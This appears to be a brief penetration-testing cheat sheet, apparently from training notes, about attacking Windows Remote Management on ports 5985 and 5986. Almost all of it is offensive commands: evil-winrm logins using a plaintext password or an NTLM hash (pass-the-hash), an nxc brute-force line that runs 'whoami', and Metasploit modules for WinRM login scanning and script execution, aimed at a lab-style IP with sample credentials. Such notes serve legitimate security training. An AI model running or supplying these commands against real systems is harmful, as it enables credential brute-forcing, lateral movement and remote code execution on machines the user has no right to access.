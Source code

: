 SOAP to establish connection
PORTs: 5985, 5986 (HTTPs)
Windows Server 2012 (default: enabled)

Establishing Connection
```bash
evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!
evil-winrm -i 10.129.201.248 -u Cry0l1t3 -H <NTLM_HASH>
```
(nxc) Brute-forcing WinRM
```bash
nxc winrm 10.129.201.248 -u <username> -p <password> -x 'whoami'
```
(Metasploit) Brute-forcing WinRM
```bash
auxiliary/scanner/winrm/winrm_login
```
(Metasploit) Establishing Connection
```bash
exploit/windows/winrm/winrm_script_exec
```